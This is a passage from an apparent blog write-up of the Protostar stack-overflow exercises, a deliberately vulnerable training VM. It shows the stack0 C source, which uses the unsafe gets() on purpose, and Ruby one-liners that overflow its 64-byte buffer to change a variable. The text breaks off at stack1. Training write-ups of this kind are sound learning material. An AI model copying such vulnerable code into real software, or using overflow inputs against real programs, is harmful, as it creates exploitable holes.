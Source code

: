 ```yaml
---
layout: post
title: "Exploit-Exercises: Protostar (Stack Levels)"
date: 2015-06-27 09:46:35 +0200
comments: true
categories: [exploit-exercises, vulnhub]
---
```

Image: [Exploit-Exercises: Protostar (v2)](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/)

{% codeblock %}
user@protostar:~$ wget https://raw.githubusercontent.com/73696e65/gdbinit/master/gdb_init.txt --no-check-certificate -O ~/.gdbinit -q 
{% endcodeblock %}

## Protostar Stack0
{% codeblock lang:c stack0.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
{% endcodeblock %}

{% codeblock %}
user@protostar:/opt/protostar/bin$ ruby -e 'print "\xfa" * 64' | ./stack0 
Try again?

user@protostar:/opt/protostar/bin$ ruby -e 'print "\xfa" * 64 + "\x01"' | ./stack0 
you have changed the 'modified' variable
{% endcodeblock %}

## Protostar Stack1
{% codeblock lang:c stack1.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
